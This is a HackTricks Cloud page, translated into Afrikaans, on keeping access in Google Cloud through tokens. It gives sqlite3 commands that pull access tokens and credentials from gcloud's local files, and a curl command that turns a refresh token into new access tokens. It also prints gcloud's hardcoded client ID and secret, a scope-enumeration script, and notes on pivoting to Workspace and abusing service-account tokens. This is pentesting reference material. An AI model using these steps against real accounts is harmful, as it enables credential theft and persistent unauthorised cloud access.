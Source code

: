 # GCP - Token Persistensie

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Geverifieerde Gebruikerstokens

Om die **huidige token** van 'n gebruiker te verkry, kan jy die volgende uitvoer:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Kyk op hierdie bladsy hoe om **hierdie token direk met gcloud te gebruik**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Om die besonderhede te kry om **'n nuwe toegangstoken te genereer** voer in:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Dit is ook moontlik om verfris tokens te vind in **`$HOME/.config/gcloud/application_default_credentials.json`** en in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Om 'n nuwe verfriste toegangstoken met die **verfris token**, kliënt-ID, en kliënt geheim te verkry, voer in: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die geldigheid van die herlaai tokens kan bestuur word in **Admin** > **Security** > **Google Cloud session control**, en standaard is dit op 16h gestel hoewel dit op nooit verval kan word gestel:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Die outentikasie vloei wanneer iets soos `gcloud auth login` gebruik word, sal 'n prompt in die blaaier oopmaak en na die aanvaarding van al die skope sal die blaaier 'n versoek soos hierdie een na die http-poort wat deur die hulpmiddel oopgemaak is, stuur:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Then, gcloud sal die toestand en kode gebruik met 'n paar hardgecodeerde `client_id` (`32555940559.apps.googleusercontent.com`) en **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) om die **finale hernuwingstoken data** te verkry.

{% hint style="danger" %}
Let daarop dat die kommunikasie met localhost in HTTP is, so dit is moontlik om die data te onderskep om 'n hernuwingstoken te kry, maar hierdie data is net 1 keer geldig, so dit sou nutteloos wees, dit is makliker om die hernuwingstoken uit die lêer te lees.
{% endhint %}

### OAuth Scopes

Jy kan al die Google scopes vind in [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) of hulle verkry deur die volgende uit te voer:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Dit is moontlik om te sien watter skope die toepassing wat **`gcloud`** gebruik om te autentiseer, kan ondersteun met hierdie skrip:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Na uitvoering daarvan is dit nagegaan dat hierdie toepassing hierdie skope ondersteun:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
it's interesting to see how this app supports the **`drive`** scope, which could allow a user to escalate from GCP to Workspace if an attacker manages to force the user to generate a token with this scope.

**Check how to** [**abuse this here**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

Net soos met geverifieerde gebruikers, as jy daarin slaag om die **privaat sleutel lêer** van 'n diensrekening te **kompromitteer**, sal jy in staat wees om dit **gewoonlik te gebruik solank as wat jy wil**.\
As jy egter die **OAuth token** van 'n diensrekening steel, kan dit selfs meer interessant wees, want, selfs al is hierdie tokens per standaard net vir 'n uur nuttig, as die **slagoffer die privaat API-sleutel verwyder, sal die OAuth token steeds geldig wees totdat dit verval**.

### Metadata

Dit is duidelik dat, solank jy binne 'n masjien in die GCP-omgewing is, jy in staat sal wees om die **diensrekening wat aan daardie masjien gekoppel is, te benader deur die metadata-eindpunt te kontak** (let daarop dat die Oauth tokens wat jy in hierdie eindpunt kan benader, gewoonlik deur scopes beperk is).

### Remediations

Sommige remediërings vir hierdie tegnieke word verduidelik in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
